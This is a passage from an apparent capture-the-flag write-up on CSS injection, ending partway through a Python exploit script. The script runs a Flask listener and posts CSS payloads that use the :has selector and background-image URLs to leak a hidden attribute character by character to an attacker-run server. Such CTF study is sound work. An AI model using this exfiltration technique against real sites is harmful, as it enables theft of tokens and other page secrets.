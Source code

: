 After sending this, you will get a request to you webhook which means.. WE HAVE CSS INJECTION!

Now for the final exploit there are a lot of ways to extract the flag like using fonts linked to your webhook for specific letters etc.. Here we will try to use the `:has` css pseudo-class.

We will need to make a script for this, since doing this manually will take a long time..

This is the exploit script for this challenge:
```python
from flask import Flask, request, jsonify
import string
import requests
import threading

app = Flask(__name__)

injection_url = 'http://127.0.0.1:5000/submit'

chars = string.printable

flag = "ctf{"
global newCharAgain

def genPayload(flag, character):
    return f'''
    <style>
        div:has(p[data-placeholder^="{flag}{character}"]) {{
            background-image: url("http://127.0.0.1:5555/submit?char={character}");
        }}
    </style>
    '''

@app.route('/submit', methods=['GET'])
def submit():
    global flag
    global newCharAgain
    char = request.args.get('char')
    flag += char
    print(f"New char found, current flag: {flag}")
    newCharAgain = False
    return jsonify({'message': 'Character added to flag successfully'})

def perform_injection():
        global flag
        global newCharAgain

        notFound = True
        while notFound:
            newCharAgain = True
            if "}" in flag:
                print(f"Final flag found: {flag}")
                notFound = False
                break
            else:
                  for i in chars:
                    if not newCharAgain:
                        break
                    payload = genPayload(flag, i)
                      
                    data = {
                          'message': payload
                    }
  
                    sendPayload = requests.post(injection_url, json=data)
                    if "}" in flag:
```